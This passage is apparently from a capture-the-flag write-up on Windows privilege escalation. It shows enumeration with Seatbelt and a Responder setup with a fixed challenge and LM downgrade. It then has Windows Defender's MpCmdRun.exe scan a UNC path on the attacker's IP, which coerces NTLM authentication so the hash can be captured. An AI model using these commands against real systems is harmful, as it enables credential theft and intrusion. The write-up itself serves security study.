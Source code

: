 > **[SeatBelt](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries){:target="_blank"}** -- Enumerates the host searching for misconfigurations (more a gather info tool than privesc).

> **mpcmdrun.exe** is an important part of **Microsoft's Windows Security system** that helps protect your PC from online threats and malware. You can also use this utility if you'd like to automate **Microsoft Security Antivirus**. The **.exe** must be run from the Windows command prompt.

> **Attacker Machine**:

```bash
mv ~/Downloads/Seatbelt.exe .
```

> **Victime Machine**:

```cmd
Invoke-Binary Seatbelt.exe
Invoke-Binary Seatbelt.exe -group=all

# ====== NTLMSettings ======
#      [!] NTLM clients support NTLMv1!          <-- Confirmed !
```

> **Attacker Machine**:

```bash
cd /usr/share/responder
nvim Responder.conf
#   --> Challenge = Random <--> 1122334455667788
responder -I tun0 --lm
```

> **Victime Machine**:

```cmd
cd C:\
cd PROGRA~1
cd 'Windows Defender'
.\MpCmdRun.exe
#   ---> For scanning files and other things

.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.6\oldboywashere
```

<br />
<img src="{{ site.img_path }}/apt_writeup/APT_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
